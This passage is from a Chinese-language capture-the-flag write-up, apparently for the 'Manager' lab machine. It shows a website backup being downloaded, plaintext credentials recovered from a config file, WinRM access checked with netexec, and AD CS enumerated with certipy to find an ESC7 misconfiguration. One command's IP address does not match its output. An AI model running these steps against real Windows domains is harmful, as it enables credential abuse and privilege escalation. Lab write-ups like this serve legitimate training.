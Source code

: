 我们从网站上下载该备份文件

```bash
kali@kali[~]$ wget http://10.10.11.236/website-backup-27-07-23-old.zip
```

解压之后，从 `.old-conf.xml` 文件中，找到了`raven`账户的账号密码

```
username: raven
password: R4v3nBe5tD3veloP3r!123
```

使用该账户进一步枚举，发现该账户有WINRM服务的权限

```bash
kali@kali[~]$ netexec winrm 10.10.11.202 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'    
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

枚举 `ldap` 发现也有 `ldap` 服务的访问权限
## 04. ESC7提权

由于 `Operator` 和 `raven` 有 ldap 服务的访问权限，使用这两个账户进行 ADCS 域证书漏洞枚举。发现可以使用 `raven` 账户进行 `ESC7` 攻击 

```bash
kali@kali[~]$ certipy-ad find -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

<省略...>
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```
